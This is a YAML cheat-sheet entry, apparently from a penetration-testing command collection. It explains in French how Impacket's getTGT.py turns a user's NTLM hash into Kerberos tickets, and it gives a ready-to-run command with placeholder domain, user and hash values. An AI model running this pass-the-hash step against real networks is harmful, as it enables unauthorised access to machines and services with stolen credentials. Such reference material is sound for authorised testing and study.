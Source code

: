 ```yaml
---
description: |
  Le fichier getTGT.py d'Impacket utilise le hachage NTLM d'un utilisateur valide pour demander des tickets Kerberos, afin d'accéder à n'importe quel service ou machine où cet utilisateur a des permissions.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  python3 getTGT.py test.local/john -dc-ip 10.10.10.1 -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

